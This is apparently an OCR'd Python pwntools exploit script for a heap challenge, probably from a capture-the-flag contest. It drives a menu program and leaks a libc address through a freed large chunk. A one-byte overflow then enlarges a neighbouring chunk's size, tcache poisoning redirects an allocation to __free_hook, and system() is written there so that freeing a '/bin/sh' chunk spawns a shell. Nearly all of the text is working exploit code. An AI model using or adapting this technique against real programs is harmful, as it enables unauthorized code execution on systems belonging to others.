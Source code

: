 #           ''')

def make(size, data):
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(size))
    sh.sendlineafter(b':', data)

def show(index):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', str(index))

def edit(index, data):
    sh.sendlineafter(b'>', b'3')
    sh.sendlineafter(b':', str(index))
    sh.sendlineafter(b':', data)

def delete(index):
    sh.sendlineafter(b'>', b'4')
    sh.sendlineafter(b':', str(index))

def finalize():
    sh.sendlineafter(b'>', b'5')

make(0x428, b'A') # size field 0x430
make(24, b'B')
delete(0) # delete chunk idx 0
delete(1) # delete chunk idx 1
make(0x428, b'')
show(0)

sh.recvuntil(b"=> ")
get = u64(sh.recv(6) + b'\x00' * 2)
log.info(f'libc leak --> {hex(get)}')

libc.address = get - 4111370
log.success(f'LIBC BASE --> {hex(libc.address)}')

delete(0) # remove data at chunk 0
make(0x28, b'X' * 0x28) # allocate new data at chunk 0
make(0x28, b'Y' * 0x28) # allocate new data at chunk 1
make(0x28, b'Z' * 0x28) # allocate new data at chunk 2

edit(0, b'M' * 0x28 + p8(0x81)) # overflow chunk 0 until and overlap the size field of chunk 2 to 0x81
input()
delete(1) # remove data at chunk 1
delete(2) # remove data at chunk 2

# overlap size field of chunk 2 to 0x21 and change it's FD to __free_hook()
make(0x78, b'D' * 0x28 + pack(0x21) + p64(libc.sym['__free_hook']))
make(0x28, b'/bin/sh\x00') # store /bin/sh strings as FD of chunk 2
make(0x28, p64(libc.sym['system'])) # change _free_hook to system()
